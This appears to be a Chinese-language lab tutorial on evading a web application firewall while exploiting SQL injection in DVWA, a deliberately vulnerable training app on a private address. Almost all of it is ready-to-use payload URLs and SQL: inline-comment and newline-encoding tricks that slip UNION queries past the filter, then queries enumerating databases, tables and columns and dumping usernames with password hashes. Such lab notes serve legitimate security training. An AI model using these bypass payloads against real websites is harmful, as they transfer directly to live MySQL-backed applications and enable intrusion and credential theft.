 ## waf绕过
### 1、在开启waf的情况，测试
```shell script
http://172.16.120.165/dvwa/vulnerabilities/sqli/?id=1' and '1'='1&Submit=Submit#
```
![image](https://github.com/498946975/Security/blob/master/images/waf_13.png)
### 2、绕过waf，内敛注释成功绕过
```shell script
http://172.16.120.165/dvwa/vulnerabilities/sqli/?id=1'/*!11445and*/'1'='1&Submit=Submit#
```
```yaml
1'/*!11445and*/'1'='
解析：
/*      */: 中间的内容是注解
/*！    */: 中间的内容取消注解
```
```yaml
/*!11445*/表示版本号；从00000~99999 ，需要⼩于mysql的版本；
例如:mysql 5.6 ，则版本号需要小于 56000 才能执行成功
```
### 3、order by 更换为 group by绕过
```shell script
http://172.16.120.165/dvwa/vulnerabilities/sqli/?id=1' order by '1-- &Submit=Submit#
```
![image](https://github.com/498946975/Security/blob/master/images/waf_14.png)
#### 更换group by
```shell script
http://172.16.120.165/dvwa/vulnerabilities/sqli/?id=1' group by '1-- &Submit=Submit#
```
![image](https://github.com/498946975/Security/blob/master/images/waf_15.png)
#### 输入group by 3报错，就是2列
```shell script
http://172.16.120.165/dvwa/vulnerabilities/sqli/?id=1' group by 3-- &Submit=Submit#
```
![image](https://github.com/498946975/Security/blob/master/images/waf_16.png)
### 4、union all 绕过
```yaml
在参数后插入其他语句，添加注释，然后使用截断，使用%23使得语句报错，将双引号直接注 释
```
```shell script
http://172.16.120.165/dvwa/vulnerabilities/sqli/?id=1' regexp "%0A%23" /*!11144union %0A select */1,2-- &Submit=Submit#
```
#### 语句翻译
```shell script
1' regexp "%0A%23" /*!11144union %0A select */1,2--
```
```yaml
%0A：回车
%23：#
regexp "%0A%23"：正则匹配，回车#
```
```yaml
1' regexp "
#" /*!11144union 
 select */1,2--  
```
![image](https://github.com/498946975/Security/blob/master/images/waf_17.png)
### 5、database(),user()绕过，再次使用内敛注释绕过
![image](https://github.com/498946975/Security/blob/master/images/waf_18.png)
database()绕过
```shell script
?id=-1' regexp "%0A%23"/*!11144union %0A select*/ 1,database(%0A /*!11144*/)--
```
```shell script
http://172.16.120.165/dvwa/vulnerabilities/sqli/?id=1' regexp "%0A%23" /*!11144union %0A select */database(%0A /*!11144*/),2-- &Submit=Submit#
```
![image](https://github.com/498946975/Security/blob/master/images/waf_19.png)
#### user()绕过
```shell script
http://172.16.120.165/dvwa/vulnerabilities/sqli/?id=1' regexp "%0A%23" /*!11144union %0A select */database(%0A /*!11144*/),user(%0A /*!11144*/)-- &Submit=Submit#
```
![image](https://github.com/498946975/Security/blob/master/images/waf_20.png)
### 6、获取所有库的名称
```sql
select user,password from users where user_id='-1' union /*!-- /*
select/*!1,*/ group_concat(schema_name)   /*!from*/      /*!-- /*
information_schema./*!schemata*/ --; -- ';
```
![image](https://github.com/498946975/Security/blob/master/images/waf_21.png)
在url中
```shell script
http://172.16.120.165/dvwa/vulnerabilities/sqli/?id=-1' union /*!--+/*%0aselect/*!1,*/ group_concat(schema_name) /*!from*/ /*!-- +/*%0ainformation_schema./*!schemata*/ --+
```
### 7、获取dvwa库的所有表名
```sql
select user,password from users where user_id='-1' union /*!-- /*
select/*!1,*/ group_concat(table_name)   /*!from*/      /*!-- /*
information_schema./*!tables*/  where table_schema='dvwa'; -- ';
```
![image](https://github.com/498946975/Security/blob/master/images/waf_22.png)
在url中
```shell script
http://172.16.120.165/dvwa/vulnerabilities/sqli/?id=-1' union /*!--+/*%0aselect/*!1,*/ group_concat(table_name) /*!from*/ /*!-- +/*%0ainformation_schema./*!tables*/ where table_schema='dvwa' --+
```
### 8、获取user表的所有字段
```sql
select user,password from users where user_id='-1' union /*!-- /*
select/*!1,*/ group_concat(column_name)   /*!from*/      /*!-- /*
information_schema./*!columns*/  where table_name='users'; -- ';
```
![image](https://github.com/498946975/Security/blob/master/images/waf_23.png)
在url中
```shell script
http://172.16.120.165/dvwa/vulnerabilities/sqli/?id=-1' union /*!--+/*%0aselect/*!1,*/ group_concat(column_name) /*!from*/ /*!-- +/*%0ainformation_schema./*!columns*/ where table_name='users' --+
```
### 9、获取账号密码
```sql
select user,password from users where user_id='-1' union /*!-- /*
select/*!1,*/ group_concat(concat_ws(0x7e,user,password))  /*!from*/  dvwa.users; -- ';
```
```yaml
user内容～password内容
```
![image](https://github.com/498946975/Security/blob/master/images/waf_24.png)
在url中
```shell script
http://172.16.120.165/dvwa/vulnerabilities/sqli/?id=-1' union /*!--+/*%0aselect/*!1,*/ group_concat(concat_ws(0x7e,user,password)) /*!from*/ dvwa.users --+
```

